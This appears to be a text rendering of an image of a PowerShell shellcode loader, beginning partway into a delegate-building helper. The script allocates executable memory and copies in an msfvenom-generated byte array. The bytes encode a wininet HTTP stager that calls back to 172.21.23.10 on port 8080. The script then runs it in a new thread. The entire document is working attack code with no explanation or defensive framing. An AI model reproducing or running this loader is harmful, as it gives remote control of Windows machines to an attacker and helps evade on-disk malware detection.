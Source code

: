 ```powershell
        Param ( 
            [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func, 
            [Parameter(Position = 1)] [Type] $delType = [Void]
    ) 
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate]) 
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed') 
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed') 
    return $type.CreateType() 
} 
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)
#msfvenom -f ps1 
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,0x51,0x65,0x48,0x8b,0x52,0x60,0x56,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x66,0x81,0x78,0x18,0xb,0x2,0x41,0x51,0xf,0x85,0x72,0x0,0x0,0x0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0x8b,0x48,0x18,0xe3,0x56,0x48,0xff,0xc9,0x4d,0x31,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x41,0x58,0x41,0x58,0x48,0x1,0xd0,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49,0xbe,0x77,0x69,0x6e,0x69,0x6e,0x65,0x74,0x0,0x41,0x56,0x48,0x89,0xe1,0x49,0xc7,0xc2,0x4c,0x77,0x26,0x7,0xff,0xd5,0x53,0x53,0x48,0x89,0xe1,0x53,0x5a,0x4d,0x31,0xc0,0x4d,0x31,0xc9,0x53,0x53,0x49,0xba,0x3a,0x56,0x79,0xa7,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0xd,0x0,0x0,0x0,0x31,0x37,0x32,0x2e,0x32,0x31,0x2e,0x32,0x33,0x2e,0x31,0x30,0x0,0x5a,0x48,0x89,0xc1,0x49,0xc7,0xc0,0x90,0x1f,0x0,0x0,0x4d,0x31,0xc9,0x53,0x53,0x6a,0x3,0x53,0x49,0xba,0x57,0x89,0x9f,0xc6,0x0,0x0,0x0,0x0,0xff,0xd5,0xe8,0x7b,0x0,0x0,0x0,0x2f,0x6b,0x76,0x51,0x45,0x70,0x45,0x49,0x65,0x42,0x34,0x33,0x33,0x5a,0x50,0x5a,0x6d,0x6c,0x53,0x69,0x56,0x4e,0x51,0x6f,0x37,0x67,0x76,0x6f,0x72,0x54,0x5f,0x6a,0x51,0x45,0x71,0x72,0x33,0x65,0x58,0x48,0x64,0x44,0x5f,0x50,0x68,0x59,0x66,0x35,0x6a,0x77,0x51,0x6a,0x38,0x4e,0x72,0x47,0x4e,0x37,0x62,0x5f,0x59,0x44,0x76,0x52,0x56,0x45,0x52,0x6c,0x56,0x38,0x48,0x36,0x49,0x64,0x45,0x52,0x51,0x7a,0x52,0x37,0x65,0x43,0x52,0x56,0x34,0x50,0x6a,0x6a,0x62,0x36,0x49,0x6b,0x32,0x4c,0x52,0x4c,0x32,0x36,0x5f,0x61,0x77,0x70,0x74,0x66,0x6e,0x34,0x74,0x67,0x73,0x6b,0x37,0x72,0x7a,0x7a,0x7a,0x39,0x51,0x4b,0x65,0x75,0x4d,0x49,0x0,0x48,0x89,0xc1,0x53,0x5a,0x41,0x58,0x4d,0x31,0xc9,0x53,0x48,0xb8,0x0,0x32,0xa8,0x84,0x0,0x0,0x0,0x0,0x50,0x53,0x53,0x49,0xc7,0xc2,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x48,0x89,0xc6,0x6a,0xa,0x5f,0x48,0x89,0xf1,0x6a,0x1f,0x5a,0x52,0x68,0x80,0x33,0x0,0x0,0x49,0x89,0xe0,0x6a,0x4,0x41,0x59,0x49,0xba,0x75,0x46,0x9e,0x86,0x0,0x0,0x0,0x0,0xff,0xd5,0x4d,0x31,0xc0,0x53,0x5a,0x48,0x89,0xf1,0x4d,0x31,0xc9,0x4d,0x31,0xc9,0x53,0x53,0x49,0xc7,0xc2,0x2d,0x6,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x1f,0x48,0xc7,0xc1,0x88,0x13,0x0,0x0,0x49,0xba,0x44,0xf0,0x35,0xe0,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0xff,0xcf,0x74,0x2,0xeb,0xaa,0xe8,0x55,0x0,0x0,0x0,0x53,0x59,0x6a,0x40,0x5a,0x49,0x89,0xd1,0xc1,0xe2,0x10,0x49,0xc7,0xc0,0x0,0x10,0x0,0x0,0x49,0xba,0x58,0xa4,0x53,0xe5,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x93,0x53,0x53,0x48,0x89,0xe7,0x48,0x89,0xf1,0x48,0x89,0xda,0x49,0xc7,0xc0,0x0,0x20,0x0,0x0,0x49,0x89,0xf9,0x49,0xba,0x12,0x96,0x89,0xe2,0x0,0x0,0x0,0x0,0xff,0xd5,0x48,0x83,0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x7,0x48,0x1,0xc3,0x85,0xc0,0x75,0xd2,0x58,0xc3,0x58,0x6a,0x0,0x59,0xbb,0xe0,0x1d,0x2a,0xa,0x41,0x89,0xda,0xff,0xd5
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length) 
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0, $lpMem, [IntPtr]::Zero, 0, [IntPtr]::Zero) 
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```
